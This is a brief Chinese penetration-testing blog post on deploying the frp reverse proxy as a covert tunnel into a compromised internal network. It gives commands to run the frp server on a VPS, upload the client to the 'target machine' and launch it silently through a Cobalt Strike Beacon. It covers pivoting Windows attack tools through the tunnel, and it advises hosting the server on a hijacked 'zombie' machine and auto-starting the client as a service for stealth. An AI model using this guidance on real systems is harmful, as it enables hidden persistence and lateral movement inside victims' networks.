 ```yaml
---
title: frp
top: false
cover: false
categories:
- 渗透测试
tags:
- frp
- 内网穿透
- 端口转发
abbrlink: 23493
date: 2020-09-10 14:56:45
keywords:
summary:
img:
password:
---
```


下载地址：https://github.com/fatedier/frp.git

跨平台，根据自己情况选择使用



### 配置文件

#### 服务端

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/frp1.png"></img>

#### 客户端

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/frp2.jpg"></img>





### 部署

#### 服务端

连接到vps上，后台启动服务端

```bash
nohup ./frps -c frps.int &
jobs -l 
cat frps.log
```

#### 客户端

将`frpc.exe`与`frpc.ini`传到目标机的同一目录下，直接运行

```bash
frpc.exe -c frpc.int
```

当frp客户端启动后，是否成功连接，都会在frp服务端日志中查看到


但如果直接在目标机的Beacon中启动frp客户端，会持续有日志输出，并干扰该pid下的其他操作，

所以可结合execute在目标机无输出执行程序。

```bash
sleep 10
execute c:/frpc.exe -c c:/frpc.ini
shell netstat -ano |findstr 7007

```



#### Windows

Windows中可结合Proxifier、SSTap等工具，可设置socks5口令，以此达到用windows渗透工具横向穿透的效果。





>
>Frp的用法比较灵活且运行稳定。如可将frp服务端挂在"肉鸡"上，以达到隐蔽性，也可将客户端做成服务自启的形式等，实战中可自由发挥。



